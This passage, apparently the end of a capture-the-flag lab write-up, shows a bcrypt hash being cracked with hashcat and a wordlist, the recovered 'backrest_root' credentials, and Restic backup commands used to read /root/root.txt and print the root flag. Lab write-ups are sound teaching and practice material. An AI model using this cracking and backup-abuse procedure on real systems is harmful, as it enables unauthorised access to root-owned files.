$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO                                                                                                                                                              

┌──(kali㉿kali)-[~]
└─$ hashcat -a 0 -m 3200 -w 3 --force roothash /usr/share/wordlists/rockyou.txt

                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ hashcat -m 3200 roothash --show
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^
  
```

username : **`backrest_root` 
password : `!@#$%^`** 

## Login success


I then added a repository seems like cron 


Used `Restic CLI commands` ****to initialize a repo in **`/tmp`**, restored the `/root` backup, then dumped root.txt from the shell to capture the **root flag**.


### Commands :

```bash
init --repo /tmp
backup /root
snapshots
ls latest
dump latest /root/root.txt
```

# Root Flag

**`62a29dad99d43bf05887278002d7133f`**